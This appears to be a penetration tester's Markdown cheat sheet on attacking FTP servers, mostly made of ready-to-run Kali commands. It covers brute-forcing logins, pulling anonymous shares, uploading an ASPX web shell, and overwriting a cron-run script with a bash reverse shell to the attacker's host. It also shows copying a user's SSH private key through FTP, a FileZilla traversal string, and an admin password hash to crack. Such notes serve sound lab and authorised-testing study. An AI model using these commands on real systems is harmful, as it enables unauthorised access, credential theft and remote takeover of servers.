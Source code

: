 ### Checks

- [ ] Check if you have anonymous access
- [ ] Check if you can upload a file to trigger a web shell through the web app
- [ ] Check if you can download backup files to extract included passwords
- [ ] Check the version of FTP for exploits

#### Explaoitable Settings
|**Setting**|**Description**|
|---|---|
|`anonymous_enable=YES`|Allowing anonymous login?|
|`anon_upload_enable=YES`|Allowing anonymous to upload files?|
|`anon_mkdir_write_enable=YES`|Allowing anonymous to create new directories?|
|`no_anon_password=YES`|Do not ask anonymous for password?|
|`anon_root=/home/username/ftp`|Directory for anonymous.|
|`write_enable=YES`|Allow the usage of FTP commands: STOR, DELE, RNFR, RNTO, MKD, RMD, APPE, and SITE?|

#### FTP Enumeration
==CHECK TO SEE IF YOU CAN UPLOAD FILES!==
```bash - kali
ftp $TARGET 21
```
Admin login
```bash - kali
admin
```
Anonymous login
```bash - kali
anonymous
```
```bash - kali
nmap --script ftp-brute -p 21 $TARGET
```
Check for directory traversal:
```bash - kali
ls ../
```
Recursive Listing:
```bash - kali
ls -R
```

#### Exit Extended Passive Mode
```bash - kali
pass
```
```bash - kali
ls
```
Then switch to binary mode to upload files:
```bash - kali
bin
```
#### Downloading recursively
```bash - kali
wget --mirror 'ftp://anonymous:anonymous@$TARGET'
```
```bash - kali
wget -r ftp://anonymous@$TARGET:21
```
```bash - kali
wget -m ftp://anonymous:anonymous@$TARGET
```
```bash - kali
wget -m --no-passive ftp://anonymous:anonymous@$TARGET
```
#### Upload reverse shell
```bash - kali
binary
```
```bash - kali
put cmdasp.aspx
```
```bash - kali
firefox http://$TARGET/cmdasp.aspx
```
#### Display file without downloading
```bash - kali
get <FILENAME> -
```
#### Interact with the FTP service on the target using encrypted connection.
```bash - kali
openssl s_client -connect <FQDN/IP>:21 -starttls ftp
```
#### Existing scripts
Found a script on FTP called "cleanup.sh" that is part of cron job.  Made a reverse shell with same name, uploaded and overwrote.
clean.sh
```bash - kali
echo '#!/bin/bash \nbash -i >& /dev/tcp/$KALI/443 0>&1' > clean.sh
```
```bash - kali
ftp $TARGET
```
```bash - kali
cd scripts
```
```bash - kali
put clean.sh
```

 Run this command to find all ftp scripts
```bash - kali
find / -type f -name ftp* 2>/dev/null | grep scripts
```
#### Nmap vsftpd script
```bash - kali
nmap --script ftp-vsftpd-backdoor -p 21 $TARGET
```
#### copy id_rsa
```bash - kali
nc $TARGET 21
```
```bash - kali
cpfr /home/user/.ssh/id_rsa
```
```bash - kali
cpto /home/kali/id_rsa
```
[[Port 22 - SSH  ~#id_rsa]]
#### Home FTP Server
https://www.exploit-db.com/exploits/34050
#### FileZilla Directory Transversal
```
.....=C:/Program+Files/FileZilla+Server/FileZilla+Server.xml
```
`Username = administrator`
`Pass = e10adc3949ba59abbe56e057f20f883e`
To crack passwords, try:
[[Hashcat#FileZilla 0 9 55]]
#### vsftpd
Config file is most likely located at `/etc/vsftpd.conf`. If you can read this file, look for `anon_root=/srv` entry to find root directory of FTP.  `/srv` in this example.
